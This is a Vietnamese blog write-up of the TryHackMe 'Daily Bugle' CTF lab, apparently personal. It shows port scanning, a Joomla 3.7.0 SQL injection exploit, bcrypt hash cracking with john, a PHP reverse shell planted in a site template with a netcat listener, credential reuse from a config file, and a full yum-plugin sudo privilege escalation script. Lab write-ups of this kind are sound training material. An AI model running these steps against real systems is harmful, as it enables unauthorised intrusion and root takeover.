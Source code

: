 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Daily Bugle"
date: "2021-10-24"
tags: [
    "tryhackme",
    "web",
    "linux",
    "ssh",
    "wget"
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2021-10-24-THM-Daily-Bugle/1.png)

Xin chào, Lẩu đây. Hôm nay tôi sẽ giải CTF [Tryhackme - Daily Bugle](https://tryhackme.com/room/dailybugle). Géc gô!!!

## Reconnaissance

Vẫn như thông thường thôi, việc đầu tiên cần làm là quét cổng. 

```python
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   syn-ack MariaDB (unauthorized)
```
Với port 80 tôi thấy có path */joomla/*, vậy là web này được buil trên Joomla CMS, và nếu qua path /administrator/ thì tôi sẽ vào được login page joomla. Tuy nhiên với kiến thức hạn hẹp, phải loay hoay 1 lúc lâu tôi mới tìm ra được version joomla đang chạy trên machine này. 

Lội qua 1 đống tool thì tôi tìm được thằng này: [juumla](https://github.com/oppsec/juumla.git) giúp check version cũng như tìm find backup hay config, khá tiện. 
```python
┌──(neo㉿kali)-[~/juumla]
└─$ python main.py -u http://10.10.91.181
jUuMlA - 0.1.4
most overrated joomla scanner
> Checking if target is running Joomla... 
> Running Joomla version scanner... [1/3] 
> Joomla version is: 3.7.0 
> Running Joomla vulnerabilities scanner... [2/3] 
> Joomla! 3.7 - SQL Injection 
> Vulnerabilities scanner finished [2/3] 
```
Check trên [exploit-db](https://www.exploit-db.com/exploits/42033) Tôi có 1 SQLi, chạy thử [sqlmap](https://github.com/sqlmapproject/sqlmap) nhưng nó quá lâu (lâu vô hạnnnn =.=). Vậy nên tôi thử tìm trên github xem có payload joomla version 3.7.0 không. Và nó ở [đây](https://github.com/stefanlucas/Exploit-Joomla.git). 

Clone nó về và chạy với IP machine và tôi có luôn user trong 1 phút, phí mất 15 phút ngồi chờ thằng sqlmap, ngẫn quá :sweat:  
```python
[$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```
Ném thằng hash này vào 1 file vào dùng john để decrypt nó.
```python
┌──(neo㉿kali)-[~]
└─$ sudo john hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:43 13.62% (ETA: 04:25:48) 0g/s 78.57p/s 78.57c/s 78.57C/s piccolo..yahweh
spiderman123     (?) 
```
## Upload reverse shell
Login vào joomla để upload shell. Dạo quanh 1 lúc thì tôi thấy template là nơi có thể upload shell vì nó sẽ là thứ hiện ra cho người dùng khi họ truy cập vào trang web. 

Sửa file php có sẵn trong template thành reverse shell php, shell này tôi lấy từ [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell), sửa listen host và port thành ip machine của mình.

![upload-shell](/assets/img/2021-10-24-THM-Daily-Bugle/2.png)

Tạo listener bằng netcat: `nc -lnvp 2402` sau đó truy cập vào file vừa sửa: `http://IP-MACHINE/templates/beez3/index.php`

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402
listening on [any] 2402 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.71.145] 37496
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 23:38:06 up 36 min,  0 users,  load average: 0.03, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```
Config lại shell bằng python nhưng không được, trong thư mục __/home__ tôi có thư mục jjameson nhưng không thể truy cập. Tôi sẽ tìm xung quanh xem có password của ông này không. Tôi sẽ ưu tiên các file config vì thường thì các user và passwd sẽ được lưu ở đây. Thêm nữa đây là web được buil trên php nên tôi sẽ thử tìm file `config.php` xem có thu được gì đặc biệt không.

Sau khi lần mò trong thư mục lưu trữ web (thường là `/var/www/html/`) tôi tìm thấy 2 file `configuration.php` và `web.config.php`

![jjameson](/assets/img/2021-10-24-THM-Daily-Bugle/3.png)

```python
su jjameson
Password: nv5uz9r3ZEDzVjNu
id
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
```
Vào thư mục jjameson và tôi có user flag
```python
[jjameson@dailybugle ~]$ ls
user.txt
```
## Privilege escalation
Lệnh `sudo -l` để kiểm tra xem user jjameson có chạy command nào với quyền root không
```python
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
Tôi lại lượn qua [GTFOBins](https://gtfobins.github.io/gtfobins/yum/) xem cách lên root bằng yum. Do tôi không thấy fpm ở phần a xuất hiện trong machine nên tôi sẽ thử dùng cách b.
```python
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
```python
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# ls /root/root.txt
/root/root.txt
```
## Tổng kết
Qua bài này chúng ta biết thêm về ***Joomla cms***, biết đâu sau này lại có hứng thú tạo web bằng thằng này. Tiếp theo là cách sử dụng ***exploit-db*** để tìm kiếm lỗ hổng trong các phiên bản của ứng dụng, cách sử dụng ***john-the-ripper*** để decrypt file hash. Cuối cùng là cách sử dụng yum để leo thang đặc quyền. Yeah chắc vậy là đủ rồi.




